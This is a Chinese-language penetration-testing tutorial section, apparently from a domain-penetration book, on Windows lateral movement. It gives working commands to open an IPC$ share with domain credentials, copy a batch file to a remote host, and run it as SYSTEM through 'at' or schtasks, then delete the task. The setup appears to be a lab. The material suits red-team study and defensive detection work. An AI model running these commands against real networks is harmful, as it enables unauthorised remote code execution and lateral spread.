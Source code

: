 > 原文：[http://book.iwonder.run/域渗透/4.2.1.2.html](http://book.iwonder.run/域渗透/4.2.1.2.html)

#### 4.2.1.2 建立 IPC 连接、copy 文件、创建计划任务

```
net use \\192.168.19.169\c$ test@123 /user:adtest\jeff1 
copy 1.bat \\192.168.19.169\c$

net time \\192.168.19.169
at \\192.168.19.169 1:03 c:\1.bat 
```

![image](img/705c740a27317405a3982c83e657da6a.png)

#### schtasks

由于 at 在新版本的系统中已被弃用，我们需要用 schtasks 替代

![image](img/edd6f0af7d968429cd1057db89afaa37.png)

```
schtasks /create /s 192.168.19.177 /u adtest\jeff1 /p test@123 /ru "SYSTEM" /tn test /sc DAILY /tr c:\1.bat /F 
```

创建计划任务，/s 指定远程机器名或 ip 地址，/ru 指定运行任务的用户权限，这里指定 为最高的 SYSTEM，/tn 是任务名称，/sc 是任务运行频率，这里指定为每天运行，并没什么 实际意义，/tr 指定运行的文件，/F 表示如果指定的任务已经存在，则强制创建任务并抑制警告

![image](img/78ada5b1d052a32e276aeb8c1497fd2d.png)

运行任务，其中/i 表示立即运行

```
schtasks /run /s 192.168.19.177 /u adtest\jeff1 /p test@123 /tn test /i 
```

![image](img/bee254d2abfa41fd8cd9040378e00e45.png)

![image](img/e1b5c3d023535bcf071e9919ac8af41e.png)

删除计划任务

```
schtasks /delete /s 192.168.19.177 /u adtest\jeff1 /p test@123 /tn test /f 
```

![image](img/baaf024f4f355986df7a92f7396386c9.png)

![image](img/a6be9d9dc39395a7b6e170bc674c39b0.png)

